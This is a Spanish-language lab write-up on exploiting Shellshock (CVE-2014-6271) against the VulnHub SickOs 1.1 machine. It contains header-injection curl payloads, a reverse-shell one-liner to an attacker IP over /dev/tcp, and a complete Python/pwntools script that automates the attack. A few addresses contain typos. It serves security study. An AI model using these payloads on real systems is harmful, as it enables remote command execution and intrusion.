



# Ataque ShellShock


### Más info:

- Links
    
    deephacking - (”[https://deephacking.tech/shellshock-attack-pentesting-web/](https://deephacking.tech/shellshock-attack-pentesting-web/)”)
    
    Cloudflare - (”[https://blog.cloudflare.com/inside-shellshock/](https://blog.cloudflare.com/inside-shellshock/)”)
    

## ¿Qué es un ataque shellshock?

Shellshock es una vulnerabilidad asociada al CVE-2014-6271 que salió el 24 de septiembre de 2014 y afecta a la shell de Linux “Bash” hasta la versión 4.3. Esta vulnerabilidad permite una ejecución arbitraria de comandos.

Link de la máquina: [https://www.vulnhub.com/entry/sickos-11,132/](https://www.vulnhub.com/entry/sickos-11,132/)

Al hacer un reconocimiento a la página web, es posible encontrarse con el directorio “cgi-bin”, este directorio se crea automáticamente para colocar scripts para que interactúen con el servidor web.

```bash
gobuster dir -t 5 -u http://192.168.0.101 
--proxy http://192.168.0.101:3128 -w /usr/share/wordlists/
SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt 
--add-slash
```



Estos directorios pueden contener diferentes tipos de archivos, por ejemplo, se interesa encontrar archivos con extensiones como sh, pl, o cgi.

```bash
gobuster dir -t 5 -u http://192.168.0.101/cgi-bin/ --proxy 
http://192.168.0.101:3128 -w /usr/share/wordlists/
SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt 
--add-slash -x pl,cgi,sh
```


Como se puede ver se ve un formato JSON en el cual se está ejecutando el comando “uptime” de forma constante.


## Explotación

Una vez identificado el archivo dentro del directorio “/cgi-bin/”, se enviará un payload en el cual se envía un curl a la dirección web apuntando al archivo en sí pero se le cambiará la cabecera de la petición, específicamente el “User-Agent”:

```bash
curl -s -H "User-Agent: () { :; }; echo 'Test'" 
http://192.168.101/cgi-bin/status 
--proxy "http://192.168.0.101:3128"
```



También se podría hacer lo mismo con la cabecera “Referer”:

```bash
curl -s -H "Referer: () { :; }; echo; echo 'test'" 
http://192.168.0.101/cgi-bin/status 
--proxy "http://192.168.0.101:3128"
```


Como se puede ver, la web es vulnerable a shellshock y se pueden ejecutar comandos remotamente, ahora se podría conseguir una reverse shell:

```bash
curl -s -H "User-Agent: () { :; }; echo; 
/bin/bash -c 'bash -i >& /dev/tcp/192.168.0.108/443 0>&1'"
```



*Cabe recalcar que al ejecutar un comando hay veces que es necesario especificar la ruta completa de ese comando, por ejemplo, si se quiere utilizar el comando “ping”, es posible que se necesite especificar la ruta completa “/usr/bin/ping”.*

## Script en Python - ShellShock

Este script automatizará lo hecho anteriormente, además establecerá una reverse shell de la máquina víctima al ser ejecutado.

```bash
#!/usr/bin/python3

import sys, requests, signal, threading
from pwn import *

def def_handler(sig, frame):
	print("\n\n[!] Exiting...\n")
	sys.exit(1)

#Ctrl+C
signal.signal(signal.SIGINT, def_handler)

main_url = "http://192.168.0.101/cgi-bin/status"
squid_proxy = {'http': 'http:192.168.0.101:3128'}
lport = 443

def shellshock_attack():

	header = {'User-Agent': "() { :; }; echo; /bin/bash -c 'bash -i >& /dev/tcp/192.168.0.108/443 0>&1'"}

	r = requests.get(main_url, headers=header, proxies=squid_proxy)

if __name__ == '__main__':

	try:
		threading.Thread(target=shellshock_attack, 
args=()).start()
	except Exception as e:
		log.error(str(e))

	shell = listen(lport, timeout=20).wait_for_connection()

	if shell.sock is None:
		log.failure("Connection couldn't be stablished")
		sys.exit(1)
	else:
		shell.interactive()
```


